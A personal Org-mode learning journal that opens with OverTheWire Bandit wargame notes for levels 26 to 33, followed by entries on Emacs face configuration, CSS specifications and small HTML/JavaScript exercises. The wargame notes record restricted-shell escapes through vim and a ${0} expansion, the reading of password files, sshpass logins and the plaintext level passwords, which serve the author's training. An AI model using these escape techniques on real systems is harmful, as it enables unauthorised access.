#+begin_src expect :tangle ~/hack/overthewire.org/bandit26.expect
#!/usr/bin/expect -f
# bandit26-hit.exp — spawn ssh and immediately send a control byte, then hand control to you.

# === Configuration: change these to match your local SSH command ===
set timeout 10
set ssh_cmd {ssh -t -p 2220 -l bandit26 -i ~/.ssh/id_rsa_overthewire.org-bandit26 bandit.labs.overthewire.org}

# === Control character to send ===
# \032 is Ctrl+Z (ASCII SUB). Change to \003 for Ctrl+C, etc.
set ctrl_byte "\003"

# Spawn the SSH client
spawn -noecho {*}$ssh_cmd

# Option 1: wait for any data from the remote side, then immediately send the control char
# (this triggers the key while the pager is running)
expect {
    -re {.+} { send -- $ctrl_byte }
    timeout { send -- $ctrl_byte }   ;# fallback: send anyway if nothing seen within timeout
}

# Hand control to your terminal interactively
interact
#+end_src

#+begin_src shell
chmod +x bandit26.expect
#+end_src

#+RESULTS:



janela pequena força modo interativo do more

v abre o vim

rodar ocmandos no vim

rodei um open do pass if

:e /etc/band.../band..26

s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

Essa senha deixa logar, mas cai no mesmo problema.

:set shell=/bin/bash

:shell

upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
*** 27 -> 28

git repo at

ssh://bandit27-git@localhost/home/bandit27-git/repo
via the port 2220

i have to clone this repo

**** clone logged in the server

from the manpage, the format for ssh urls is

#+begin_quote
ssh://[user@]host.xz[:port]/~[user]/path/to/repo.git/
#+end_quote

translating to the address:

git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo

didn't allow the clone (no write permission)

going local

**** clone from my local machine

git clone ssh://bandit27-git@bandit.labs.overthewire.org:2220/home/bandit27-git/repo

password was inside README

Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN
*** 28 -> 29

ssh://bandit28-git@localhost/home/bandit28-git/repo via the port 2220.

git clone ssh://bandit28-git@bandit.labs.overthewire.org:2220/home/bandit28-git/repo

tava no git log

sshpass -p 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7 ssh bandit.labs.overthewire.org -p 2220 -l bandit29
*** 29 -> 30
:PROPERTIES:
:header-args: :session *29*
:END:

**** Instructions

#+begin_quote
Level Goal

There is a git repository at ssh://bandit29-git@localhost/home/bandit29-git/repo via the port 2220.
The password for the user bandit29-git is the same as for the user bandit29.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

**** Clone the repository

Basic clone structure.

#+begin_src shell
export SERVER=bandit29-git@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/bandit29-git/repo
export REMOTE_REPO=ssh://$SERVER:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/bandit29-git-repo
export REPO=$LOCAL_FOLDER
#+end_src

Essential in this problem: mirror the remote repository.
This way we get all the branches.
The password turned out to be on a branch ~dev~, that was not fetched with the normal ~git clone~ command.

#+begin_src shell
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit29-git@bandit.labs.overthewire.org:2220/home/bandit29-git/repo /home/rafa/hack/overthewire.org/bandit29-git-repo

qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL
*** Bandit Level 30 → Level 31

#+begin_quote
Level Goal

There is a git repository at ssh://bandit30-git@localhost/home/bandit30-git/repo via the port 2220.
The password for the user bandit30-git is the same as for the user bandit30.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell
export BANDIT=bandit30-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit30-git@bandit.labs.overthewire.org:2220/home/bandit30-git/repo /home/rafa/hack/overthewire.org/bandit30-git-repo

There was a ~secret~ tag.

Fetched it.
Couldn't ~checkout~ to it, nor hard reset to it.
Then I looked inside it.

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit30-git-repo$ git cat-file -p secret
fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
#+end_example

fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
*** Bandit Level 31 → Level 32

#+begin_quote
Level Goal

There is a git repository at ssh://bandit31-git@localhost/home/bandit31-git/repo via the port 2220.
The password for the user bandit31-git is the same as for the user bandit31.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo-mirror
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo-mirror

#+begin_src shell
PASSWORD=fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit31
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy ssh bandit.labs.overthewire.org -p 2220 -l bandit31

**** Investigating bandit31's home folder

#+begin_example
bandit31@bandit:~$ ll
total 24
drwxr-xr-x   2 root root 4096 Aug 15 13:16 ./
drwxr-xr-x 150 root root 4096 Aug 15 13:18 ../
-rw-r--r--   1 root root  220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root 3851 Aug 15 13:09 .bashrc
-rwxr-xr-x   1 root root   59 Aug 15 13:16 .gitconfig*
-rw-r--r--   1 root root  807 Mar 31  2024 .profile
bandit31@bandit:~$ cat .gitconfig 
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_example

#+begin_src shell
git ls-remote
#+end_src

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit31-git-repo-mirror$ git ls-remote --heads --tags --refs --symref
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
From ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo
508f78be4568c9cf050249a441800ad36c1fe5bd        refs/heads/master
#+end_example

**** I have to push a file to the remote repository

#+begin_example
2 files changed, 8 insertions(+)
.gitignore | 1 +
README.md  | 7 +++++++

new file   .gitignore
@@ -0,0 +1 @@
+*.txt
new file   README.md
@@ -0,0 +1,7 @@
+This time your task is to push a file to the remote repository.
+
+Details:
+    File name: key.txt
+    Content: 'May I come in?'
+    Branch: master
+
#+end_example

I want to
1. Modify .gitignore and remove ~*.txt~


Clone without mirror.

#+begin_src shell
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo

I need to add the user info I found on 31's home folder .gitconfig:
Add it to the repo's .git/config file.

#+begin_src gitconfig /home/rafa/hack/overthewire.org/bandit31-git-repo/.git/.gitconfig
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_src

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (3/3), 301 bytes | 301.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

>>>> ! [remote rejected] master -> master (pre-receive hook declined)

What hook is that?
Is it in the folder ~hooks~?
Only sample hooks there.

Is there something on the server?
1. I looked


fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (4/4), 361 bytes | 361.00 KiB/s, done.
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
remote: Well done! Here is the password for the next level:        
remote: 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K         
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
*** Bandit Level 32 → Level 33

#+begin_quote
Level Goal

After all this git stuff, it’s time for another escape. Good luck!
Commands you may need to solve this level

sh, man
#+end_quote

#+begin_src shell
PASSWORD=3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit32
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K ssh bandit.labs.overthewire.org -p 2220 -l bandit32

**** Control keys

| Key | Result                   |
|-----+--------------------------|
| C-D | quit                     |
| C-Z | no echo, but do not quit |
|     |                          |

#+begin_example

>> a
sh: 1: A: Permission denied
>> \
>> $
sh: 1: $: Permission denied
>> 
>> !
sh: 2: Syntax error: newline unexpected
>> !
sh: 2: Syntax error: newline unexpected
>> " 
sh: 2: Syntax error: Unterminated quoted string
>> "bash"
sh: 1: BASH: Permission denied

#+end_example

**** UPPERCASE SHELL: environment variables?

**** The uppershell executable has setgid for bandit33

#+begin_example
bandit31@bandit:/home/bandit32$ ll
total 36
drwxr-xr-x   2 root     root      4096 Aug 15 13:16 ./
drwxr-xr-x 150 root     root      4096 Aug 15 13:18 ../
-rw-r--r--   1 root     root       220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root      3851 Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root       807 Mar 31  2024 .profile
-rwsr-x---   1 bandit33 bandit32 15140 Aug 15 13:16 uppershell*
               ^^^^^^^^
#+end_example

**** manpage sh: ${0} gives name of shell

It was executing the expansions.
It executed that, giving me an instance of ~sh~.

#+begin_example
WELCOME TO THE UPPERCASE SHELL
>> ${$}
sh: 1: 625083: Permission denied
>> ${0}
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
#+end_example

tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
*** Bandit Level 33 → Level 34

#+begin_quote
At this moment, level 34 does not exist yet.
#+end_quote

* [2025-10-12 Sun]

Today I used a good part of the sunny Sunday to do something I have been wanting to do for years: reset Org Mode font colors; it is /too/ colorful!
I get distracted just by looking at the screen, and trying to figure out the rules for the colors, and the semantics, etc; not very focus-inducing!

This is the result.

** Introduction

This has some face-related functions and settings, including the configuration of the default face for Emacs.

[[file:~/elisp/faces.el][~/elisp/faces.el]] ≡

#+begin_src elisp :tangle ~/elisp/faces.el
<<define the functions>>
<<reset the faces>>
(face-set-after-frame-default (selected-frame))
#+end_src

** Faces

*** ~default~

Reset face: all settings to default.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
(face-reset 'default)
#+end_src

*** Org

Go nuclear: Reset all Org faces.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
<<push all known Org faces into a list>>
<<reset all Org faces from that list>>
#+end_src

~<<push all known Org faces into a list>> +≡~

#+begin_src elisp :noweb-ref push all known Org faces into a list
;; Collect all org faces
(setq org-faces (seq-filter
                 (lambda (face)
                   (string-prefix-p "org-" (symbol-name face)))
                 (face-list)))
#+end_src

~<<reset all Org faces from that list>> +≡~

#+begin_src elisp :noweb-ref reset all Org faces from that list
(face-reset-list org-faces)
#+end_src

** Functions

~<<define the functions>> +≡~

#+begin_src elisp :noweb-ref define the functions
<<define a function to reset a face>>
<<define a function to reset a list of faces>>
#+end_src

*** ~face-reset~

~<<define a function to reset a face>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a face
(defun face-reset (face)
  "Sets FACE attributes to absolute and average values."
  (interactive)
  (set-face-attribute
   face
   <<FRAME>>
   <<&rest ARGS>>))
#+end_src

**** Frame

We set it to ~t~, this way new frames honor it.

#+begin_quote
If FRAME is a frame, set the FACE’s attributes only for that frame.  If
FRAME is nil, set attribute values for all existing frames, as well as
the default for new frames.  If FRAME is t, change the default values
of attributes for new frames.
#+end_quote

~<<FRAME>> +≡~

#+begin_src elisp :noweb-ref FRAME
t
#+end_src

**** ~family~ and ~foundry~

~<<&rest ARGS>> +≡~

#+begin_src elisp  :noweb-ref &rest ARGS
:family "Lat15Fixed16"
:foundry "PfEd"
#+end_src

**** ~width~ and ~height~

#+begin_quote
Note that for the ‘default’ face, you must specify an absolute height (since there is nothing for it to be relative to).
#+end_quote

This height was being used before I started working.
I am not sure what it means, or how it is calculated.

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:width 'normal
:height 128
#+end_src

**** ~weight~ and ~slant~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:weight 'medium
:slant 'normal
#+end_src

**** ~foreground~ and ~background~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:foreground "dark gray"
:background "black"
#+end_src

**** Decorations

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:underline nil
:overline nil
:strike-through nil
:box nil
#+end_src

**** ~inverse-video~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:inverse-video nil
#+end_src

**** ~stipple~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:stipple nil
#+end_src

**** ~extend~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:extend nil
#+end_src

**** ~font~

Don't see the need for this.

~<<&rest ARGS>> +≡~

**** ~inherit~

#+begin_src elisp :noweb-ref &rest ARGS
:inherit nil
#+end_src

*** ~face-reset-list~

~<<define a function to reset a list of faces>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a list of faces
(defun face-reset-list (face-list)
  "Apply function `face-reset' to a list of faces."
  (interactive)
  ;; Lists of faces usually are automatically obtained by taking all symbols
  ;; from a context with "face" in their names.  But surprisingly this is not an
  ;; infallible approach.  Then we ignore any errors here.  This is not bad,
  ;; because we only ignore---and do not-reset---the ones that are _not_ faces.
  (ignore-errors
    (dolist (face face-list)
      (face-reset face))))
#+end_src


** Seinfeld Checkmark

[[file:images/2025-10-12_seinfeld.jpeg]]

* [2025-10-11 Sat]

Productive day.
But only because learned about my limitations while struggling to get results.
Learned a lot!

** Seinfeld Checkmark

[[file:images/2025-10-11_seinfeld.jpeg]]

* [2025-10-10 Fri]

Well, I'm pursuing some CTF goals.
Totally derailed.
But, I am investigating my core reasons to program.
The burn out happened because of lack of this.

Nice.

** Seinfeld Checkmark

[[file:images/2025-10-10_seinfeld.jpeg]]

* [2025-10-09 Thu]

** Back to Odin

Now that I had a taste of the "ground truth" (official specs), I feel more confident about navigating the uncertainties and vagueness of the world.
Also, Wikipedia has a lot of good resources on alternatives to The Box Model...
I probably need to improve my Google-fu.

I feel that I tend to underestimate CSS.
I've been thinking about this.
Webdev is HTML, CSS, and JS.
Instinctively, I think: JS is harder than HTML, that is harder than CSS.
But this is not the case---at least for me.
CSS has lots of intellectual demands:
- The official docs are declarative: they don't teach how to implement, but what they want as a result (from the browser implementers).
  This removes a lot of pressure that is usually present when defining a language (like JS and even HTML).
  The documentation is more vague, there are lots of exceptions.
  And what trips me up the most is the terminology.
  It all started in CSS1 with
  - For the background: ~background-color~
  - For the foreground: ~color~ (!)


This list goes on and on.
I belive it stems from the fact that the people involved with the development of CSS have a different mindset than what I'm used to when dealing with tech specs.
And this is probably good, because they are also developing an aspect that is normally difficult for programmers: make things look good.
And I've seen what CSS can do, and it's great.
Also, I've seen the latest developments in layout---this is what made me go to the specs, I couldn't believe The Box Model could be a thing they would settle on---and thank God they didn't!
During this journey I learned a lot about realistic expectations on webdev and stuff---including my own capabilities and limits.
The most important thing was to see that when I go slowly on a CSS exercise things tend to flow better, and quicker.
My initial impulse is to underestimate and get frustrated with the delay, lack of info... when I could just stop, take a deep breath, and dedicate some time to think.

Another curious development: my inner artist is coming out, sniffing the territory, and I catch myself sometimes thinking about ideas for websites.
This is cool!

** Seinfeld Checkmark

[[file:images/2025-10-09_seinfeld.jpeg]]

* [2025-10-08 Wed]

** CSS1 Standard

See how things evolved is good when there is so much confusion in the terminology.

The margin collapse from the Box Model makes sense for typography, not graphics layout.
It was introduced at a time where you /maybe/ would add a picture to a page; a time where the page was thought as a /book/ or /newspaper/ page (but without ads, comic strips or other elements demanding a more sophisticated and precise layout engine).

It was also the /first/ major attempt at adding styles to a page.
/Style/ at that time was mainly choosing the text font, and color; background color or image.
And back then, many users had only access to text terminals, so the important part of the page for them was mainly the text, and its structure.

I keep going back and forth from the specs to ChatGPT.
ChatGPT is great to teach me about the historical context.
It also makes great parallels with newer versions, points out things that have changed over time.
And it agrees with me about the quirks---but also often gives plausible motivations at the time for the quirks.

I just found out that modern alternatives like Flex and Grid do not collapse margins.
Thank God for them.
But this is not screamed all over the web tutorials as I believe it should be.
Advices like:

#+begin_quote
Avoid using the box model for layout, use the flex model instead.
#+end_quote

Just finished reading it.
Very nice.
Lots of quirks.

The one thing I really think would be useful is: when setting a property valeu, being able to reference the /current/ value.
For instance: If I want to make the first letter of a paragraph twice as big, I could say something like:

#+begin_src css
p::first-letter {
  font-size: calc(current * 2);  /* or  '2*'  */
}
#+end_src

Or if I wanted it to be 10 pixels bigger:

#+begin_src css
p::first-letter {
  font-size: calc(current + 10px);
}
#+end_src

** CSS2.1 Standard

It mentions "webmasters" LOL.

Starts talking about JavaScript.

** Seinfeld Checkmark

[[file:images/2025-10-08_seinfeld.jpeg]]

* [2025-10-07 Tue]

** CSS has some obscurities

The first one just appeared: The Box Model.
I'll try and be systematic here.

Reading CSS Standar Box Model.
https://www.w3.org/TR/css-box-3/

Again, much better.
Tutorials and books are hesitant about terminology and analogies.
Better go to the source.

First small joy: yes, everything in CSS is either a *box* or a *text sequence*.
CSS has its own tree, the *box tree*, derived from the DOM.

[[file:pages/css2.1-margins-padding-border.html][pages/css2.1-margins-padding-border.html]] ≡

#+begin_src html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Examples of margins, padding, and borders</TITLE>
    <STYLE type="text/css">
    </STYLE>
    <link rel="stylesheet" href="css2.1-margins-padding-border-experiments.css">
  </HEAD>
  <BODY>
    
    <div class="ul">
      <UL>
        <div class="li">
          <LI >First element of list
        </div>
        <div class="li">
          <LI class="withborder">Second element of list is a bit longer to illustrate wrapping.
        </div>
      </UL>
      <p class="undecided-p">Is this a paragraph or a list item?</p>
    </div>
  </BODY>
</HTML>
#+end_src

** I started reading CSS1 specs

Very enlightening.
Using ChatGPT to answer questions; usualy involve historical quirks.

** 1h coding

Today I really spent most of the time on the specs.
I also did lots of free explorations on the Dev Tools in Firefox, with the help of ChatGPT.
I'm counting those as coding; all in all, I feel today's work granted me that.

** Seinfeld Checkmark

[[file:images/2025-10-07_seinfeld.jpeg]]

* [2025-10-06 Mon]

** Odin Foundations Course

Started reding the theory for The Box Model.

Went do MDN and ChatGPT for clarifications.

Downloading some CSS books for reference.

Just read some chapters of some CSS books.
Nice to see they have much more structure than several online resources---editorial pressure, probably.

Now, I need to *practice*.

** Burn out WARNING

Today I studied too much, didn't go busking, and didn't properly rest.

I'll work on my 1h coding now, and then rest.

** 1h of Hack!

I'll experiment with LP.
Two code blocks: HTML and JS.

First we tangle.

[[file:~/dev/js-ChatGPT/2025-10-06.html][~/dev/js-ChatGPT/2025-10-06.html]] ≡

#+begin_src html :tangle ~/dev/js-ChatGPT/2025-10-06.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>

  <body>
    <dl>
      <<html>>
    </dl>

    <script>
      <<js>>
    </script>
  </body>
</html>
#+end_src

*** Minute 40–50: Keyboard events
Now the task:
#+begin_quote
Minute 40–50: Keyboard events
16. Add a <p> that shows which key the user presses (keydown event).
Learn: event.key.
#+end_quote

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Keyboard Events</dt>
<dd><p id="pKeyPress"></p></dd>
#+end_src

~event.key~

Need to add an event listener.
Will add it to ~window~.

~<<js>> +≡~

#+begin_src js :noweb-ref js
const pKeyPress = document.getElementById("pKeyPress");
window.addEventListener("keydown", (e) => {
    pKeyPress.textContent = e.key;
})
#+end_src

*** Minute 50–60: Mini-project — Guess the Number

#+begin_quote
Minute 50–60: Mini-project — Guess the Number
17. Build a simple game:

Generate a random number between 1 and 10.

Add an <input> and a button.

User guesses the number. Show “Too high”, “Too low”, or “Correct!”.
Learn: combining input, random, conditionals, and DOM updates.
#+end_quote

Add the controls.
Will use a ~dl~.

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Guess the number</dt>
<dd>Enter a number between 1 and 10</dd>
<dd><input id="inputGuessNumber" type="text"><button id="buttonGuessNumber">Go!</button></dd>
<dd>Result:</dd>
<dd id="ddGuessNumberResult"></dd>
#+end_src

Create a function to choose a random number between 1 and 10.

~<<js>> +≡~

#+begin_src js :noweb-ref js
<<allow user to press Enter instead of clicking the button>>
let number = Math.floor(Math.random() * 10) + 1;
const ddGuessNumberResult = document.getElementById("ddGuessNumberResult");
document.getElementById("buttonGuessNumber")
    .addEventListener("click", () => {
        let guess = Number(document.getElementById("inputGuessNumber").value);
        if (guess < number) {
            ddGuessNumberResult.textContent = "Too low";
        } else {
            if (guess > number) {
                ddGuessNumberResult.textContent = "Too High";
            } else {
                ddGuessNumberResult.textContent = "Correct!";
            }
        }
    });
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-06_seinfeld.jpeg]]

* [2025-10-05 Sun]

** web.dev HTML Course

Going over the curriculum again, this time specifically to know which *projects* it has.

** ~hr~

Thematic changes.
The Standard says ~section~ and ~hr~ have some "equivalences"---let's experiment with them.

[[file:~/dev/webdev-study/pages/hr.html][~/dev/webdev-study/pages/hr.html]] ≡

#+begin_src html :tangle pages/hr.html :mkdirp yes
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;hr&gt;</title>
  </head>

  <body>
    <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <hr>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <hr>

    <section>
      <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

      <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>
    </section>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>
  </body>
</html>
#+end_src

Visually, there's no explicit "equivalence"; maybe we need some CSS for that.

** ~pre~

[[file:pages/pre.html][pages/pre.html]] ≡

#+begin_src html :tangle pages/pre.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;pre&gt;</title>
  </head>

  <body>
    <h1>The <code>&lt;pre&gt; element</code></h1>
    <h2>Just <code>&lt;pre&gt;</code></h2>
    <pre>
      function greet(name) {
        console.log(`Hello, ${name}`);
      }
    </pre>

    <h2><code>&lt;pre&gt;&lt;code&gt;&lt;code&gt;&lt;pre&gt;</code></h2>
    <pre>
      <code>
        function greet(name) {
          console.log(`Hello, ${name}`);
        }
      </code>
    </pre>
  </body>
</html>
#+end_src

Both use monospaced fonts.

** ~kbd~

[[file:pages/kbd.html][pages/kbd.html]] ≡

#+begin_src html :tangle pages/kbd.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <pre><samp>You are in an open field west of a big white house with a boarded
front door.
There is a small mailbox here.

></samp> <kbd>open mailbox</kbd>

<samp>Opening the mailbox reveals:
A leaflet.

></samp></pre>
  </body>
</html>
#+end_src

Initial whitespace ("prefixing" w.) matters.

** ~blockquote~

[[file:pages/blockquote.html][pages/blockquote.html]] ≡

#+begin_src html :tangle pages/blockquote.html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <blockquote>
      <p>I contend that we are both atheists. I just believe in one fewer
        god than you do. When you understand why you dismiss all the other
        possible gods, you will understand why I dismiss yours.</p>
    </blockquote>
    <p>— Stephen Roberts</p>
    <hr>
    <figure>
      <blockquote>
        <p>The truth may be puzzling. It may take some work to grapple with.
          It may be counterintuitive. It may contradict deeply held
          prejudices. It may not be consonant with what we desperately want to
